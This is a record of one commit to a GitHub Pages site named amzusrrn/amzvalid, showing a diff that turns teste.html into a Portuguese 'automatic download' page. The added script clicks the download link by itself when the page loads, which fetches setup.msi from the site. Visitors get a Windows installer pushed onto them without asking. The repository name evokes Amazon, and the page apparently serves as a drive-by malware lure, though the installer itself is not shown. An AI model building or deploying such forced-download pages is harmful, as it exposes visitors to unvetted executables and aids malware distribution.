

Before and after one commit to amzusrrn/amzvalid, a plain HTML site: page teste.html in a window 1280 px wide. Shown: the whole page, without its empty margins (290-989 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update teste.html

```diff
--- a/teste.html
+++ b/teste.html
@@ -1,4 +1,24 @@
+<!DOCTYPE html>
+<html lang="pt-BR">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Download Automático</title>
+    <style type="text/css">
+        .download { cursor: pointer; }
+    </style>
+</head>
+<body style="font-family: Arial, sans-serif; background-color: #f4f4f4; margin: 0; padding: 0;">
+    <div style="max-width: 600px; margin: 50px auto; background-color: #fff; padding: 20px; text-align: center; border-radius: 8px; box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);">
+        <h1 style="color: #333;">Download Automático</h1>
+        <p style="font-size: 16px; color: #555;">O download do arquivo será iniciado automaticamente. Caso não ocorra, clique no botão abaixo.</p>
+
+        <a href="#" class="download" style="display: inline-block; padding: 12px 25px; font-size: 16px; color: #fff; background-color: #007BFF; border-radius: 5px; text-decoration: none; margin-top: 20px;">Baixar Arquivo</a>
+
+           </div>
+
     <script>
+        document.addEventListener('DOMContentLoaded', function() {
             document.querySelectorAll('.download').forEach(function(a) {
                 a.onclick = function(){
                     fetch('https://amzusrrn.github.io/amzvalid/setup.msi')
@@ -12,8 +32,11 @@ document.querySelectorAll('.download').forEach(function(a) {
                     })
                     return false;
                 }
-})
+            });
+
+            // Executar o download automaticamente ao carregar a página
+            document.querySelector('.download').click();
+        });
     </script>
-<style type="text/css">
- .download { cursor:pointer; }
-</style>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
